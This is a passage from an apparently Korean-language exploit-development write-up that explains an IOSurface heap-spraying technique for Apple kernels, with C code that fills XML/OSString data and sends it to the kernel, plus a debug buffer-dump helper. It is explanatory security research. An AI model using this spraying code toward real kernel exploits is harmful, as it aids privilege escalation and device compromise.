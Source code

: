 이 시점에서 XML 구조는 이미 완전히 구성되었고, 
xml_data 자리 표시자에 Spraying Data를 채우고 key에 식별자를 채워 넣기만 하면 조립이 완료된다.

### **데이터 조립**

다음 코드는 데이터 채우기와 커널로의 데이터 전송을 완료하며, 위의 논의를 바탕으로 이해하기 쉽다.

코드에서 표시된 3개의 핵심 단계를 통해 조립된 XML을 커널 프레임버퍼로 전송하면, 
커널이 그 안의 OSString에 메모리를 할당하기 때문에 이 과정에서 Heap Spraying이 완료된다.

```c
// Keep track of when we need to do GC.
static uint32_t total_arrays = 0;
size_t sprayed = 0;
size_t next_gc_step = 0;
// Loop through the arrays.
for (uint32_t array_id = 0; array_id < array_count; array_id++) {
    // If we've crossed the GC sleep boundary, sleep for a bit and schedule the
    // next one.
    // Now build the array and its elements.
    // 1. 고유 식별자를 생성하여 key에 채우기
    *key = base255_encode(total_arrays + array_id);
    for (uint32_t data_id = 0; data_id < current_array_length; data_id++) {
        // Copy in the data to the appropriate slot.
        // 2. 데이터를 OSString에 채우기
        memcpy(xml_data[data_id], data, data_size - 1);
    }
    
    // 3.커널로 데이터 전송하기
    // Finally set the array in the surface.
    ok = IOSurface_set_value(args, args_size);
    if (!ok) {
        free(args);
        free(xml_data);
        return false;
    }
    if (ok) {
        sprayed += data_size * current_array_length;
    }
}
```

커널로 데이터 전송할 때의 데이터는 다음과 같다.

한눈에 살펴보기 위해 
IOSurface_set_value 호출직전에 데이터를 덤프시키는 코드를 작성하였고,

```c
void dump_xml_data(void *data, size_t length) {
    static int count = 0;
    char filename[32];
    snprintf(filename, sizeof(filename), "xml_data_dump_%d.bin", ++count);

    FILE *fp = fopen(filename, "wb");
    if (!fp) {
        perror("fopen");
        return;
    }
    fwrite(data, 1, length, fp);
    fclose(fp);
}

//XXX: Dump
dump_xml_data(args, args_size);

// Finally set the array in the surface.
ok = IOSurface_set_value(args, args_size);
```